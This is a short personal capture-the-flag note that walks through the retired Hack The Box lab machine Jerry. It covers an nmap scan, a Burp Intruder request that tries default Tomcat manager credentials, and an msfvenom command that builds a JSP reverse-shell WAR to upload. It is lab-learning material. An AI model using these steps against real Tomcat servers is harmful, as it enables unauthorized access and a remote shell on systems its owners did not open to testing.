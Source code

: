 Type: #windows 
Level: #easy 
Link: <https://app.hackthebox.eu/machines/Jerry>
Tags : #TCM
Tools: [[NMAP]] [[BURP]]	

## Pentesting of retired HTB VM Jerry
### Following walkthrougt of TCM on udemy

Info on the VM : Windows with IP 10.10.10.95

First let's do a classic nmap scan  

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-13 09:30 EDT
Nmap scan report for 10.10.10.95
Host is up (0.041s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

```

Interresting parts :

Apache Tomcat/7.0.88

An access to tomcat management page seems possible we can try defaut cred on it 

Using burp suite we got the following request :

```
GET /manager/html HTTP/1.1
Host: 10.10.10.95:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.10.95:8080/
Upgrade-Insecure-Requests: 1
Authorization: Basic §bWFuYWdlcjp0b21jYXQ=§

```

Now I just need to get default cred for tomcat via google then put them in base64 and use intruder 
Once the access is obtained un can use a  payload with msfvenom for a reverse shell using an WAR file upload.

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

Once the shell poped i'm directly root so I got all the flags.